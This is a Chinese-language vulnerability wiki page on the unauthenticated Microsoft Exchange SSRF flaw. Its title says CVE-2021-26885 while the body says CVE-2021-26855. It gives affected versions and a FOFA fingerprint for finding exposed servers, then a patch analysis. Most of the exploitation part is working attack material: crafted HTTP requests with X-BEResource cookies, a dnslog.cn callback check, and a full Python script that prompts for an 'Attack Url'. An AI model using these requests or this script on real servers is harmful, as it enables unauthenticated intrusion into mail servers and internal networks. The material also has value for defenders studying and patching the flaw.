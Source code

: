 ```yaml
---
title: Microsoft Exchange SSRF漏洞 CVE-2021-26885
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - Microsoft Exchange
---
```


# Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

> [!NOTE]
>
> Exchange 2013 Versions < 15.00.1497.012,
>
> Exchange 2016 CU18 < 15.01.2106.013,
>
> Exchange 2016 CU19 < 15.01.2176.009,
>
> Exchange 2019 CU7 < 15.02.0721.013,
>
> Exchange 2019 CU8 < 15.02.0792.010

# FOFA

> [!NOTE]
>
> icon_hash="1768726119"

## 漏洞复现

与 SSRF 有关的文件

```
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 **BackEndServer** 使用的类关于 **BEResourceRequestHandler** 的改变

![](/img/20210924015231902893.png)



修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁

![](/img/20210924015232295665.png)

查看调用**BERsourceRequestHandler** 的方法 **SelectHandlerForUnauthenticatedRequest** 查找相关路径 **ProxyMoudle**

![](/img/20210924015232568809.png)

可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 **X-BEResponse**, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为**/etc/y.js** 这样类似不存在的文件

参数 **X-BEResource** 解析在 **BackEndServer.FromString**

跟踪 **BackEndServer**对象， 其中该对象使用 **ProxyRequestHandler** 向主机发送请求

![](/img/20210924015232878181.png)

这里进行SSRF的漏洞复现，首先访问 **/ecp/PeiQi.js** 文件

并设置Cookie **X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true**

```
GET /ecp/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

```
响应包为:
NegotiateSecurityContext failed with for host 'peiqi_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```
GET /owa/auth/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```

> [!NOTE]
>
> Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
>
> 将其中的 Dnslog换成自己的

![](/img/20210924015233374547.png)

确定收到了由服务端发送的请求，存在SSRF漏洞

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Microsoft Exchange多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mDnslog      >>> xxxx.dnslog.cn                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = "https://" + target_url + "/ecp/PeiQi.js"
    headers = {
        'Cookie': 'X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true'
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 500 and 'NegotiateSecurityContext' in response.text and 'peiqi_wiki' in response.text:
            print("\033[32m[o] 目标 {} 存在SSRF漏洞， 输入Dnslog地址进一步检测....\033[0m".format(target_url))
            dnslog = str(input("\033[35mDnslog >>> \033[0m"))
            POC_2(target_url, dnslog)
        else:
            print("\033[31m[x] 目标 {} 不存在SSRF漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, dnslog):
    vuln_url = "https://" + target_url + "/owa/auth/PeiQi.js"
    headers = {
        'Cookie': 'X-AnonResource=true; X-AnonResource-Backend={}/ecp/default.flt?~3; X-BEResource={}/owa/auth/logon.aspx?~3;'.format(dnslog, dnslog)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 请查看 Dnslog：{} 响应....\033[0m".format(dnslog))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924015235483196.png)

## Goby & POC

> [!NOTE]
>
> Microsoft Exchange SSRF漏洞 CVE-2021-26885

![](/img/20210924015235833517.png)

![](/img/20210924015236104455.png)